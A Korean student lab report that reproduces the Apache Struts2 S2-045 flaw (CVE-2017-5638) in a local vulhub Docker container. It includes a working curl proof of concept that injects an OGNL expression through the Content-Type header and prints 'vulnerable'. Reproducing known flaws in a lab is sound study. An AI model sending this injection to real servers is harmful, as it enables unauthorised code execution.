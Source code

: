 # CVE-2017-5638 (Apache Struts2 RCE) 실습 보고서
## 1. 개요
이번 보고서는 Apache Struts2 프레임워크의 Content-Type 필드 처리 취약점(CVE-2017-5638)을 도커를 이용해 재현하고, 실제 공격이 가능한지 실습한 내용을 정리한 것이다. 이 취약점은 서버에서 외부 입력을 제대로 검증하지 않아 원격 코드 실행(RCE)로 이어질 수 있는 심각한 문제를 일으킨다.

## 2. 실습 환경
- Host OS: Windows 11
- Docker Version: 28.0.4
- Docker Compose Version: 2.34.0

## 3. 실습 과정
3.1. 취약한 환경 구성
먼저 vulhub 레포지터리를 클론하고, Struts2 s2-045 취약 버전이 설정된 디렉터리로 이동했다. 이후 docker-compose를 이용해 컨테이너를 띄웠다.

git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-045
docker compose up -d
컨테이너가 정상적으로 구동되었고, localhost:8080로 접근할 수 있었다.

3.2. 환경 구축 결과
컨테이너가 정상적으로 올라가면서 Struts2 쇼케이스 페이지가 동작하는 것을 확인했다.

## 4. 취약점 검증 (PoC)
4.1. 공격 시도
curl 명령어를 이용해 Content-Type 헤더에 OGNL 표현식을 삽입해 요청을 보냈다.

curl -v -H "Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ctn=#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']).(#ctn.getWriter().println('vulnerable')).(#ctn.getWriter().flush())}" http://localhost:8080/struts2-showcase/upload.action

4.2. 결과 확인
응답 본문에 vulnerable이라는 문자열이 출력되면서, 서버에서 OGNL 표현식이 실제로 실행된 것을 확인했다. 이를 통해 취약점이 존재함을 직접 검증할 수 있었다.

## 5. 느낀점
이번 과제를 진행하면서, 제가 제대로 방향을 잡고 수행하고 있는지 확신이 들지 않았습니다. 어쩌면 과제를 잘못 이해한 것 같다고 생각합니다.  
그럼에도 불구하고 주어진 조건 안에서 할 수 있는 최선을 다해 환경을 구축하고, 취약점 검증까지 마무리하려고 노력하였습니다.  
과정 중 부족한 부분이 많았던 것은 사실이지만, Docker와 취약점 환경 구축 과정을 직접 경험해볼 수 있었던 점은 큰 의미가 있었습니다.  
만약 기회가 된다면, 과제 내용을 완전히 이해한 상태로 다시 한 번 제대로 도전해보고 싶습니다.

## 6. 참고 자료
- Vulhub Struts2 S2-045 환경 (https://vulhub.org/#/environments/struts2/s2-045/)
- CVE-2017-5638 상세정보 - NVD (https://nvd.nist.gov/vuln/detail/CVE-2017-5638)


## 7. GitHub 레포 링크
https://github.com/soonnae/vulhub/tree/master/struts2/s2-045

 * pdf 변환 시 이미지가 보이지 않아서 github에만 넣어놓겠습니다. 죄송합니다.

